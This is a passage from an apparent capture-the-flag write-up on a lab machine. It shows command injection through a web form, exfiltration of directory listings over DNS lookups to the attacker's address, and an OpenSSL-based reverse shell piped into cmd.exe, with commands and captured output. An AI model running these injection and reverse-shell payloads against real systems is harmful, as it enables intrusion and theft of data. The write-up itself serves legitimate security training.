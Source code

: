 Now we are getting somewhere. Time to enumerate around the file system for anything interesting:
```
|| for /f "tokens=1,2,3" %a in ('dir /B "C:\Users"') do nslookup %a.%b.%c 10.10.14.22

[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Administrator
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .alan
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .jorge
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Public
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .rupal
```

We know we are alan, so is there anything in his user directory?
```
|| for /f "tokens=1,2,3," %a in ('dir /B "C:\Users\alan\Desktop"') do nslookup %a.%b.%c 10.10.14.22

[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .note.draft.txt
```

Darn, no flag. But a file that could be worth reading. This method is not really going to help us here as there is a limit to the number of tokens `for /f` accepts and any special characters will be lost in our output. We need to keep enumerating the file system till we find an application that we might be able to exploit to get a shell.
```
|| for /f "tokens=1,2,3," %a in ('dir /B "C:\Program Files (x86)"') do nslookup %a.%b.%c 10.10.14.22

[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Common.Files
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Internet.Explorer
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Microsoft.SDKs
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Microsoft.Visual.Studio
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Microsoft.NET
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .MSBuild
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .OpenSSL.v1.1.0
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Reference.Assemblies
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Windows.Defender
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Windows.Mail
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Windows.Media.Player
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Windows.Multimedia.Platform
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Windows.NT
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Windows.Photo.Viewer
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Windows.Portable.Devices
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .WindowsPowerShell
```

When it comes to CTFs we always want to look for something that is out of place. `OpenSSL v1.1.0` does not come on Windows by default and port 443 wasn't open in our nmap scans. Searchsploit only list DOS attacks against this particular version of openssl. So we research if there is anything else we can do, and we come across an article on [turning OpenSSL into a reverse shell](https://medium.com/@honze_net/openssl-reverse-shell-with-certificate-pinning-e0955c37b4a7)

This is where the tedium begins with this box.
```
Create a key: openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
Terminal 1: openssl s_server -quiet -key key.pem -cert cert.pem -port 73
Terminal 2: openssl s_server -quiet -key key.pem -cert cert.pem -port 136
Burp/Website input:
|| "C:\Program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.22:73 | cmd.exe | "C:\Program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.22:136
```
